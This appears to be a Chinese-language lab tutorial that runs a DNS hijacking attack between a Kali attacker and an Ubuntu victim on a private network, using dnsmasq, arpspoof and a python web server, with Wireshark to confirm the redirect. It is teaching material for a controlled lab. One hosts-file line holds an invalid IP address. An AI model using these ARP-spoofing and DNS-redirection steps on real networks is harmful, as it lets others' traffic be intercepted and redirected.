



# DNS劫持实验

**注意:** 实验中的ip依自己的实验环境为准,注意替换

​		本文中攻击者kali主机的IP为`192.168.183.137` 

​					被攻击者ubuntu主机的IP为`192.168.183.136` 

​					网关为`192.168.183.2`

## 1.配置dnsmasq服务

* 安装dnsmasq

  ```bash
  sudo apt update
  sudo apt install dnsmasq
  ```

  


* 配置dnsmasq

  ```bash
  sudo vim /etc/dnsmasq.conf
  ```

  在文件末尾添加配置:

  ```
  resolv-file=/etc/resolv.dnsmasq
  strict-order
  listen-address=192.168.183.137  # Kali IP
  address=/lanjinxin.com/192.168.183.137  # 将域名指向Kali自身
  server=8.8.8.8  # 上游DNS
  ```

  

* 本地启用dnsmasq解析

  ```bash
  sudo vim /etc/resolv.conf
  ```

  修改dns服务器为kali ip

  

* 在hosts文件中添加解析

  ```bash
  echo "192.168.183.137.10 lanjinxin.com" >> /etc/hosts
  ```

* 启动 dnsmasq 服务并设置开机自启动

  ```bash
  systemctl restart dnsmasq && systemctl enable dnsmasq
  ```

## 2.配置被攻击主机(Ubuntu24.04)

* 修改主机hosts文件

```bash
sudo vim /etc/resolv.conf
```


将nameserver 设置为kali ip `192.168.183.137`


##  3.使用 arpspoof 进行 ARP 欺骗

* 在 Kali Linux 上，使用 `arpspoof` 进行 ARP 欺骗，使得被攻击主机的流量通过攻击者主机：

  ```bash
  arpspoof -i eth0 -t [被攻击ip] -r [网关ip]
  ```

  

​	*如果不知道网关ip可以使用以下指令查询:*

```bash
route -n | grep 'UG' | awk '{print $2}'
```

## 4.观察被攻击主机访问被劫持域名时的重定向情况

* 在kali主机上使用wireshark验证dns劫持重定向


​	可见原向网关[192.168.183.2]查询dns的ubuntu主机[192.168.183.136]被kali劫持

* 在kali上搭建http服务器

  ```bash
  python3 -m http.server 80
  ```

  

  kali主机访问测试

  

* 在被攻击主机上访问域名`lanjinxin.com`



被攻击主机访问 `lanjinxin.com` 时显示的是 Kali Linux 上的 HTTP 服务器页面，说明 DNS 劫持成功。

* 在 Wireshark 中，可以观察到 DNS 请求和响应



可见ubuntu主机[192.168.183.136]通过dns查询`lanjinxin.com`的ip被kali主机[192.168.183.137]劫持并将自己的ip作为目标ip返回给被攻击主机
